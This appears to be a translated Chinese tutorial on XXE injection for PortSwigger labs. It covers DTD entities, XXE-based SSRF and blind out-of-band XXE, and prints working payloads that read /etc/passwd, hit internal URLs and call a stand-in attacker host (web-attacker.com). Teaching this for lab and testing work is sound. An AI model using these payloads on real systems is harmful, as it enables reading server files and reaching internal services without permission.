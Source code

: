 (我假设您知道如何拦截流量和测试请求流。如果不是先学那个。)

让我们介绍一下 XML 数据中的 DTD

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

这里定义了一个 DTD，它从外部源为我们的变量/实体 xxe 加载一些数据。SYSTEM 是一个关键字，file://类似于 http://

这里的 DTD 指示 XML 解析器从/etc/passwd 加载数据，并在调用&xxe;时显示数据。

你可以从服务器上获取网络用户可以访问的任何数据。比如/etc/hostname 等。如果只是 linux 服务器，你可以在 file://of 之后给出任何 linux 路径。

# 利用 XXE 实施 SSRF 袭击

> `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

PS:你可以选择任何名字来代替 foo，这不是语法的一部分。

在此 DTD 中，xxe 实体试图从内部 url 加载数据，该 url 可以是任何内容。这样你甚至可以加载服务器的云信息，如果它使用一些云服务。如果你对 SSRF 没有一些基本的了解，我建议你从这个令人敬畏的资源库中学习并获取 paylaods。

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md) [## swisskyrepo/payloads all things

### 服务器端请求伪造或 SSRF 是一个漏洞，其中攻击者强制服务器在…上执行请求

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md) 

# 盲目的 XXE 漏洞

这意味着应用程序易受攻击，但在其响应中不返回任何已定义的外部实体的值，因此不可能直接检索服务器端文件。只是不能直接读取/etc/passwd 的内容。相反，您必须加载/etc/passwd 的内容，并通过带外请求将其作为参数发送到您的服务器。在这些实验中，portswigger 提供了一个漏洞利用服务器。

我认为 portswigger 使事情变得有点复杂，如果你能从他们的解决方案中了解到，他们倾向于使用 burp collborator 和 exploit server，然后做一些棘手的事情，你非常欢迎遵循这种方法。我在这里谈论 XXE，而不是你如何利用它。

我喜欢保持事情简单，所以我用漏洞服务器做的一切只是为了传递有效载荷并在我的漏洞服务器日志中获得输出。

现在，在服务器上显示您的工资之前，您应该首先确认应用程序是否容易发出带外请求。这可以通过在 XML 实体中给出一个简单无害的服务器 url 来实现，并监控是否有来自受害服务器的 GET 请求。

现在实际部分:只需在 xml 主体中提交这个 DTD

> `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

我希望现在你一定已经明白这里发生了什么。定义了一个 DTD，它有一个 entityy xxe，向您的漏洞利用或 burp collab 服务器发出请求。只需调用这个 xxe enity 并在 collaborator 中等待 DNS 和 HTTP 请求。在利用服务器的情况下，您只能看到 get 请求，而不能看到 DNS 请求。

注意:只有当你有自己的 DNS 服务器在你的 ip 上运行时，DNS 查找才是可见的。出于安全原因，portswigger 不允许与外部服务器进行交互。所以你只能用他们的服务器。

**参数化实体:**

有时，XML 解析器或应用程序本身会阻止常规实体的使用，这意味着您不能定义一个名为 xxe 的实体，然后通过&xxe;调用它

在这种情况下，您必须使用可以在 DTD 中引用的参数实体。

XML 参数实体的声明在实体名称前包含百分号字符:

`<!ENTITY % xxe "my parameter entity value" >`
